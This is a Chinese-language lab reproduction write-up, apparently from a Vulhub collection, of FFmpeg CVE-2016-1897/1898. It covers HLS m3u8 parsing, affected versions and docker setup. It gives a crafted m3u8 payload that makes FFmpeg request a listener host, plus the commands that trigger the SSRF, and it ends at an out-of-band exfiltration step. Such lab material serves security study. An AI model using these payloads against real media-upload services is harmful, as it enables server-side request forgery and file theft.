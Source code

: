 # FFmpeg 任意文件读取漏洞/SSRF漏洞 CVE-2016-1897/CVE-2016-1898

## 漏洞描述

FFmpeg 是一套可以用来记录、转换数字音频、视频，并能将其转化为流的开源计算机程序。功能非常强大，是每个视频网站必不可少的多媒体文件处理程序。

在 FFMpeg2.X 由于在解析 HTTP Live Streaming 流媒体 m3u8 文件处理不当，可导致 SSRF 漏洞与任意文件读取漏洞。当网站允许用户上传多媒体文件，并使用 FFMpeg 进行处理时会触发该漏洞。

这个漏洞有两个 CVE 编号，分别是 CVE-2016-1897 和 CVE-2016-1898，它们两个的区别在于读取文件的行数，CVE-2016-1897 只能读取文件的第一行。

- [http://blog.neargle.com/SecNewsBak/drops/CVE-2016-1897.8%20-%20FFMpeg%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90.html](http://blog.neargle.com/SecNewsBak/drops/CVE-2016-1897.8 - FFMpeg漏洞分析.html)
- http://habrahabr.ru/company/mailru/blog/274855/

目前该漏洞已在FFMpeg **2.8.5**中修复。

## 影响版本

```
FFmpeg 2.8.x < 2.8.5
FFmpeg 2.7.x < 2.7.5
FFmpeg 2.6.x < 2.6.7
FFmpeg 2.5.x < 2.5.10
```

## HLS协议分析

HLS（HTTP Live Streaming）是Apple公司开发的一种基于HTTP协议的流媒体通信协议，大多数都应用在PC上和Iphone上。它的基本原理是把一个视频流分成很多个很小很小很小的ts流文件，然后通过HTTP下载，每次下载一点点。在一个开始一个新的流媒体会话时，客户端都会先下载一个m3u8（播放列表 Playlist）文件，里面包含了这次HLS会话的所有数据。

有一个主要的m3u8格式Playlist文件，里面可以包含下级的m3u8文件，客户端会再去索引下级的m3u8，继续解析下级的Playlist文件获取最终的TS流文件的http请求地址与时间段。

```
http://pl.youku.com/playlist/m3u8?vid=340270152&type=3gphd&ts=1462714824&keyframe=0&ep=dSaSGE6MUssC5ybeiz8bYiXiIiZdXP0O9h2CgdNnAtQnS%2Bm2&sid=746271452251312590fab&token=3319&ctype=12&ev=1&oip=3395898128
```

这是youku一个视频的m3u8文件，内容如下：

```
#EXTM3U
#EXT-X-TARGETDURATION:6
#EXT-X-VERSION:2
#EXTINF:6,
http://183.60.145.83/69777D60D183E7FE8D0BC25A4/030002010056208D059E4E15049976CD642E01-C8E5-706F-DC6D-375DE0DA5A1E.flv.ts?ts_start=0&ts_end=5.9&ts_seg_no=0&ts_keyframe=1
#EXTINF:0,
http://183.60.145.83/69777D60D183E7FE8D0BC25A4/030002010056208D059E4E15049976CD642E01-C8E5-706F-DC6D-375DE0DA5A1E.flv.ts?ts_start=5.9&ts_end=6.367&ts_seg_no=1&ts_keyframe=1
#EXT-X-ENDLIST
```

解析：

- \#EXTM3U 标签是m3u8的文件头，开头必须要这一行
- \#EXT-X-TARGETDURATION 表示整个媒体的长度 这里是6秒
- \#EXT-X-VERSION:2 该标签可有可无
- \#EXTINF:6, 表示该一段TS流文件的长度
- \#EXT-X-ENDLIST 这个相当于文件结束符

这些是m3u8的最基本的标签，而问题就出在FFMpeg去请求TS流文件的时，由于我们可以伪造一个m3u8文件，FFMpeg不会判断里面的流地址，直接请求。

## 环境搭建

Vulhub搭建环境：

```
docker-compose build
docker-compose up -d
```

访问`http://your-ip:8080/`上传文件。

## 漏洞复现

### SSRF

访问`http://your-ip:8080/`上传文件，文件名为`6215ca35009ea.mp4`。

直接用FFMpeg解析一个多媒体文件，构造test.m3u8文件，文件内容：

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
http://192.168.174.128:9999/1.html
#EXT-X-ENDLIST
```

（#EXT-X-MEDIA-SEQUENCE或#EXT-X-TARGETDURATION必须存在任意一个，前者是定义ts流文件的序号。去掉会报错：无效文件）

将test.m3u8文件拷贝到docker环境`/var/www/html`目录，与上传文件在同一目录下。

```
$ vim test.m3u8
$ docker cp test.m3u8 23f6:/var/www/html/
```

进入docker执行`ffmpeg -i test.m3u8 6215ca35009ea.mp4`（也可把m3u8格式改成其他后缀，ffmpeg会自动识别为HLS流文件）

```
$ docker exec -it 23f6 /bin/bash
$ cd /var/www/html
$ ffmpeg -i test.m3u8 6215ca35009ea.mp4
```

![image-20220223145333273](./images/202202231453426.png)

执行命令时直接发起了http请求，这就造成一个SSRF。监听9999端口，成功收到请求：

![image-20220223145355756](./images/202202231453832.png)

既然可以请求外部数据，因此可以尝试 SSRF 带外，ffmpeg 内部有一个 concat 函数，因此我们可以将内部数据通过 concat 拼接 OOB。

